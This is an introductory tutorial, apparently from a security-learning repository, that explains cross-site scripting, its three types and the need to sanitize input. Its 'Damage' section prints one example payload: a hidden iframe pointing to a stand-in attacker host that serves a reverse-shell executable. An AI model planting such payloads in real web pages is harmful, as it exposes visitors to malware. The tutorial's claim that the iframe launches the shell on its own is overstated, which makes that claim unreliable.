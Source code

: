 # Cross Site Scripting (XSS)
## The Problem
Let's think for a moment: what are websites really made out of?

A website cannot be understood and displayed by a computer unless it is written in a very specific manner. You are probably familiar with **Hypertext Markup Language (HTML)** if you've spent some time on the internet. This is the classic markup language meant to make plain text files into things that can be displayed by a web server. **HTML** is responsible for most (but not all) web based things that you've ever seen in a web browser!

When you want to see memes of cats doing funny things on the internet, HTML is the language that translates a static page of text into images, headings, buttons, links, and more! 

And most of the time, this is totally fine. You, the **client**, browse to the IP address of the web server. The web server sees a visitor and says "I must render the text documents in my main directory so our visitor can see our website!" And the server takes the HTML file and makes it into something that looks good in a web browser. Science, baby!

## The Exploit
Most problems in cyber security can be boiled down to the fact that computers, for better or worse, do exactly what you tell them to do.

If the internet was just a bunch of pictures of static cat memes, I think we'd all be better off and nothing bad would ever happen. The problem here is that people love to make websites... well... **useful**. So maybe instead of cat memes, your company website has a form that take user input and produce some kind of output based on the user input.

Remember, **computers do exactly what you tell them to do**. So what if, instead of just filling out the form like a law-abiding citizen, you decide to put some HTML (or Javascript, or other type of website language) in the form instead?

Ladies and gentlemen, you have Cross Site Scripting: an exploit of **client-side HTML rendering**. The HTML code that you enter into the form is rendered by the website **as if it were part of the website in the first place**.

If a website accepts input from clients and  **does not validate and sanitize its input**, it may be vulnerable to Cross Site Scripting. Speaking simply, the website must be coded to accept input and **treat it as plain text, not HTML** to avoid this problem.

## The Types
There are three types of XSS:
- Reflected XSS: XSS that returns user input 
- Stored XSS: Think of this as XSS that is added to the actual code on the server. This means that anyone who visits a particular page with this kind of XSS will be exploited by it, and it will remain on the server until someone does something about it. Scary stuff.
- DOM Based XSS


## The Damage
XSS is not just a matter of popping up an alert on a website. An atacker can do serious damage if a webpage is vulnerable to XSS.

Consider the following example of an XSS payload:

`<iframe SRC="http://evil.website.evil/reverseShell.exe" height = "0" width = "0"></iframe>`

Here, the `iframe` HTML tag is used to make an embedded inline frame. This frame ends up looking like a tiny little square on the page when it is rendered in the browser. And as soon as a client visits a page that has been infected with an embedded iframe, their browser will try to access and browse to the iframe's source which, in this example, is `evil.website.evil/reverseShell.exe`. So everyone who visits the page while this XSS payload exists will download and launch a reverse shell program.



